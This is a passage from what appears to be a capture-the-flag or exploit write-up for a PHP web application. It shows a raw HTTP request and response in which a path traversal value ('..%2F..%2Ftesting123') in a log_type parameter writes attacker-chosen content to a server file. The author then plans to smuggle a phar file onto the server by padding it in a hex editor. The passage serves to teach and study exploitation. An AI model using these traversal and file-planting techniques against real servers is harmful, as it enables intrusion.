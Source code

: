 Let's go get that content:

```
GET /testing123_www.log HTTP/1.1
Host: 43.155.59.185:53340
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

```
HTTP/1.1 200 OK
Server: nginx/1.20.1
Date: Sun, 21 Nov 2021 16:22:27 GMT
Content-Type: application/octet-stream
Content-Length: 106
Last-Modified: Sun, 21 Nov 2021 16:22:19 GMT
Connection: close
ETag: "619a723b-6a"
Accept-Ranges: bytes

Time: 2021-11-21 16:22:19 IP: [], REQUEST: [log_type=..%2F..%2Ftesting123], CONTENT: [How now brown cow!]
```


Here we see the REQUEST section included our query parameters (log_type) and the CONTENT section included our POSTed request body content.  Presumably, if our POSTed request body had binary content, then this would also be included in the CONTENT section.


Can we use this to create a phar file on the server?

What happens if we create a new file by starting with our `test.phar` and then add some new content before and after it?

I use a tool called **Hex Fiend** (on the mac) for things like this.  We can open test.phar in Hex Fiend and insert some content before/after the original content.

Here the inserted content is circled in red:

![](media/test.phar2.png)
